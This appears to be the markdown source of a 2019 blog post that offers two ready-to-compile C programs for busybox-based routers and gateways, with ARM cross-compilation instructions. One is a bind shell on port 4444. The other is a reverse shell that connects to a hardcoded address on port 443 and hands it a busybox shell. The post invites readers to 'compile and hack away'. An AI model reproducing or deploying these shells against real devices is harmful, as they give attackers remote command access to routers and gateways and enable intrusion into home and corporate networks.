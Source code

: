 ```yaml
---
title: "C Shells for Routers & Gateways"
date: 2019-05-02T20:24:45+02:00
draft: false
categories:
- posts
tags:
- security
- shells
keywords:
- security
- shells
- embedded
coverSize: partial
coverMeta: in
autoThumbnailImage: true
---
```


Today at work, we made these two C Shells for embedded devices that run busybox. One is a bind shell and the other is a reverse shell.<!--more--> This was tested on a rooted home gateway that was running of an armv7l CPU. I compiled this on Ubuntu 16.04.6 LTS, therefore needing the cross-compilation libraries and tools.

Installing the libraries & tools:
```bash
root@ubuntu:~/asm$ sudo apt-get install gcc-arm-linux-gnueabi binutils-arm-linux-gnueabi libncurses5-dev libc6-armel-cross
```

Compiling:
```bash
root@ubuntu:~/asm$ arm-linux-gnueabi-gcc shell.c -g -o shell
```
If you need some shells that may work in some OpenWRT Devices, then compile and hack away!

<hr>

### Bind Shell
{{< tabbed-codeblock "bind.c" >}}
<!-- tab c-->
```
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>
#define LOCAL_PORT 4444

int main()
{
  int resultfd, sockfd;
  struct sockaddr_in my_addr;
  char *args[] = { "/bin/busybox", "sh", NULL};
  sockfd = socket(AF_INET, SOCK_STREAM, 0);

  int one = 1;
  setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one));

  my_addr.sin_family = AF_INET; // 2
  my_addr.sin_port = htons(LOCAL_PORT); // port number
  my_addr.sin_addr.s_addr = INADDR_ANY; // 0 fill with the local IP

  bind(sockfd, (struct sockaddr *) &my_addr, sizeof(my_addr));
  listen(sockfd, 0);
  resultfd = accept(sockfd, NULL, NULL);
  dup2(resultfd, 2);
  dup2(resultfd, 1);
  dup2(resultfd, 0);
  execve(args[0], &args[0], 0);
  return 0;
}
<!-- endtab -->
{{< /tabbed-codeblock >}}

### Reverse Shell
{{< tabbed-codeblock "rev.c" >}}
<!-- tab c-->
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#define REMOTE_ADDR "192.168.1.219"
#define REMOTE_PORT 443

int main(int argc, char *argv[])
{
  struct sockaddr_in sa;
  int s;
  char *args[] = { "/bin/busybox", "sh", NULL};
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
  sa.sin_port = htons(REMOTE_PORT);
  s = socket(AF_INET, SOCK_STREAM, 0);
  connect(s, (struct sockaddr *)&sa, sizeof(sa));
  dup2(s, 0);
  dup2(s, 1);
  dup2(s, 2);
  execve(args[0], &args[0], 0);
  return 0;
}

<!-- endtab -->
{{< /tabbed-codeblock >}}
